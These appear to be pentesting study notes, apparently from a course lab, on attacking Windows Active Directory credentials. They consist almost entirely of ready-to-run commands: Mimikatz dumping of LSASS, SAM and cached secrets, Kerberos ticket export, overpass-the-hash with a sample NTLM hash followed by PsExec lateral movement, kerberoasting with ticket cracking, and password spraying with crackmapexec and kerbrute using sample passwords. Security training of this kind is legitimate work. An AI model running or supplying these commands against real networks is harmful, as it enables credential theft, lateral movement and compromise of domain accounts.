

02-authentication
Cached creds
- because of SSO , password hashes are stored in LSASS (local security authority subsystem service)
- we need SYSTEM or local admin to get access top LSASS memory
Practical
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
sekurlsa::ekeys
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::lsa
:: // checks all modules
kerberos::list /export
- .\ "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit
- privilege::debug
- sekurlsa::logonpasswords
- dump hashes of local and remote sessions
- sekurlsa::tickets
- .\ "token::elevate" "kerberos::list /export" exit
- purge
- kerberos::purge
- kerberos::list
klist - all cached creds/tickets for the current user7
- e.g usage for kerberoasting
Mimikatz errors
- ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
- https://gitlab.com/kalilinux/packages/mimikatz/-/blob/3100a45278237cb7f87ef28f7edbfef4135c615c/x64/
Overpass the hash
# obtain TGT from NTLM hash
# mimikatz
## sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:Powershell.exe
sekurlsa::pth /user:dave /domain:corp.com /ntlm:08d7a47a6f9f66b97b1bae4178747494 /run:powershell
net use \\web04
klist
# we can obtain code execution via psexec (by reusing tft)
.\PsExec.exe \\web04 cmd.exe
Pass the ticket
- export TGS and reinject it somewhere else and then authenticate to a specific service
- doesn't give other access but offer flexibility of which machine to use the ticket from
- Silver ticket
- inject ticket with any admin groups
crack service tickets
Add-Type -AssemblyName System.IdentityModel
New-Object
System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
- klist
- kerberos::list /export
- python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
Password spraying
- net accounts => lockout policy
- Technique 1
- .\Spray-Passwords.ps1 -Pass '1Gld_qmVoF1VP6' -Admin
- Technique 2
- crackmapexec smb <any domain connected machine> -u users.txt -p password
- Technique 3
- kerbrute
- .\kerbrute_windows_amd64.exe passwordspray .\users.txt "Service1" -d o.exam
- .\kerbrute_windows_amd64.exe passwordspray .\users.txt " -d o.exam --user-as-pass
Mimikatz windows 11
- mimikatz3.exe // latest version
pass spraying creds
sudo crackmapexec smb 10.200.141.0/24 -u 'watamet' -p 'Nothingtoworry!'